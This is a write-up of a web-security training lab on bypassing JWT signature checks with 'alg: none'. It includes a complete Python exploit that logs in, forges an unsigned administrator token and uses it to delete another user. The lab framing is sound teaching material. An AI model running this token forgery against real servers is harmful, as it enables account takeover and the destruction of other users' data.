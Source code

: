 ```yaml
---
title: 'JWT Lab 2'
description: 'Demonstrating how bypassing JWT signature verification using "alg": "none" can lead to full account compromise through token forgery.'
---
```



## JWT Authentication Bypass via `alg: none`

<div style="text-align: justify;">
  In this lab, I discovered a critical vulnerability in how JSON Web Tokens (JWTs) were being verified by the server. The server accepted tokens with `"alg": "none"`—which effectively means no signature validation was performed. This oversight allowed me to forge a JWT, impersonate the administrator, and delete other user accounts.

  By logging in as a regular user and capturing a valid JWT, I modified its payload and header to remove the signature requirement and change the `sub` claim to `administrator`. The server trusted the token blindly and executed privileged actions, such as user deletion. This exercise was a clear demonstration of why signature validation is crucial in JWT-based authentication systems.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Log in as **wiener** to obtain a valid session JWT.
- Extract the JWT and decode the payload.
- Modify the `sub` field to `"administrator"` and set the `alg` in the header to `"none"`.
- Forge the JWT without a signature.
- Use this unsigned JWT to send an admin-level request to delete the target user.
- Monitor the steps using Burp Suite history to understand the manipulation.

### Usage

```bash
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import base64
import json
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
                        
# Set Burp proxy
proxies = {
'http': 'http://127.0.0.1:8080',
'https': 'http://127.0.0.1:8080'
}

# Base64 encode JSON without padding
def b64encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).decode().rstrip('=')

# Get CSRF token from login page
def get_csrf_token(s, url):
    r = s.get(url + "/login", verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, "html.parser")
    token = soup.find("input", {"name": "csrf"})["value"]
    return token

# Log in and extract session JWT
def login_and_get_jwt(s, url, username, password):
    csrf = get_csrf_token(s, url)
    data = {
        "csrf": csrf,
        "username": username,
        "password": password
    }

    r = s.post(url + "/login", data=data, verify=False, proxies=proxies, allow_redirects=False)
    
    if "session" not in r.cookies:
        print("[-] Login failed or JWT cookie not found.")
        sys.exit(1)

    return r.cookies.get("session")

# Forge new JWT with alg: none and sub: administrator
def forge_jwt(original_jwt):
    # Decode original JWT (split into header, payload, signature)
    parts = original_jwt.split('.')
    if len(parts) != 3:
        print("[-] Invalid JWT format.")
        sys.exit(1)

    # Decode payload and modify 'sub'
    payload = json.loads(base64.urlsafe_b64decode(parts[1] + "==").decode())
    payload['sub'] = 'administrator'

    # Create new header
    header = {"alg": "none"}

    # Forge unsigned JWT
    forged = b64encode(header) + "." + b64encode(payload) + "."
    return forged

# Use the forged token to delete a target user
def delete_user(s, url, token, target_user):
    uri = f"/admin/delete?username={target_user}"
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Referer": f"{url}/admin"
    }
    cookies = {"session": token}

    r = s.get(url + uri, headers=headers, cookies=cookies, verify=False, proxies=proxies)

    if "User deleted successfully" in r.text or r.status_code == 200:
        print(f"[+] User '{target_user}' deleted successfully.")
    else:
        print(f"[-] Failed to delete user '{target_user}'.")
        print(r.text)

 # Main script
if __name__ == "__main__":
    try:
         url = sys.argv[1].strip().rstrip("/")
    except IndexError:
        print(f"[-] Usage: {sys.argv[0]} <url>")
        sys.exit(1)

    session = requests.Session()

    # Step 1: Login as 'wiener' and get original JWT
    original_jwt = login_and_get_jwt(session, url, "wiener", "peter")
    print(f"[+] Original JWT: {original_jwt}")

    # Step 2: Forge JWT with admin privileges
    forged_token = forge_jwt(original_jwt)
    print(f"[+] Forged JWT: {forged_token}")

    # Step 3: Use forged token to delete 'carlos'
    delete_user(session, url, forged_token, "carlos")
```


<Comment />

